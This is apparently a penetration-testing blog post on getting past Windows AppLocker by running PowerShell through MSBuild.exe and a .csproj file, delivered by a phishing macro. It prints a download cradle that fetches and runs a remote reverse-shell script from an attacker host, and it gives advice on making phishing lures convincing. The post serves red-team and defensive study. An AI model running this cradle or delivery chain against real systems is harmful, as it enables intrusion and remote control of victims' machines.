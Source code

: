 ```yaml
---
layout: post
title: MSBuild AppLocker Bypass Phishing Payload
published: true
---
```

![msbuild]({{ site.url }}/images/msbuild-csproj.png){: .center-image }

### With regular external vulnerability scans and (hopefully) pentration tests being undertaken, the perimeter is typically not the easy route into an organisation.

People click, and despite simulated phishing campaigns and user awareness training there can never be complete assurance against credential divulgence or execution of malicious code.  So it is critically important that organisations implement a multi-layered "defence in depth" strategy. Application whitelisting is an important component of such a strategy, and is an effective means of ensuring that only approved applications can run.

AppLocker is a commonly used whitelisting technology and is built into Windows. The default AppLocker rules for Windows 10 are listed below.

![rules]({{ site.url }}/images/applocker-default-rules.png){: .center-image }

Since Powershell has gained recognition for being the attackers language of choice, many organisations are [increasingly] additionally blocking it. However, blocking powershell.exe is often not sufficient and there are many methods by which PowerShell can be instantiated to send a reverse shell reaching out of the organisation to an attacker.

The post will document one such method, with the "misplaced trust binary" MSBuild.exe. In this scenario, the company has enabled AppLocker with default rules and has also blocked Powershell.

![rules]({{ site.url }}/images/applocker-rules.png){: .center-image }

We can pass a ".csproj" (Visual Studio .NET C# Project file) to MSBuild and have it execute C# and instantiate a Powershell runspace using System.Management.Automation.dll. The powashell.csproj file below by Casey Smith (@SubTee) builds upon Jared Atkinson's (@jaredcatkinson) and Justin Warner's (@sixdub) work.

<script src="https://gist.github.com/egre55/7a6b6018c9c5ae88c63bdb23879df4d0.js"></script>

Within this we execute our PowerShell 3.0+ download cradle:

`pipeline.Commands.AddScript("IEX (iwr 'http://10.10.10.10/shell.ps1')");`

our shell.ps1:

<script src="https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3.js"></script>

Good. But now we need a means of delivering the project file and executing MSBuild. The macro below will download the csproj file to disk and execute the payload.

<script src="https://gist.github.com/egre55/563159175f8d6c1d31d7f3af77357549.js"></script>

In order to stand a chance of the macro being executed, we need to dress the document appropriately.

John Lambert (@JohnLaTwC) regularly shares interesting phishing lures and payloads, if you need inspiration for simulated phishing campaigns ;) . I find the "Document created in newer/older Office version" lures especially convincing. John has put together [this](https://t.co/OwH28ltngy) compendium of macro based lures on one-drive (link below), which is great for educating users about the different lures attackers use.

Now that our "malicious" document has been created we can test this out in the lab.


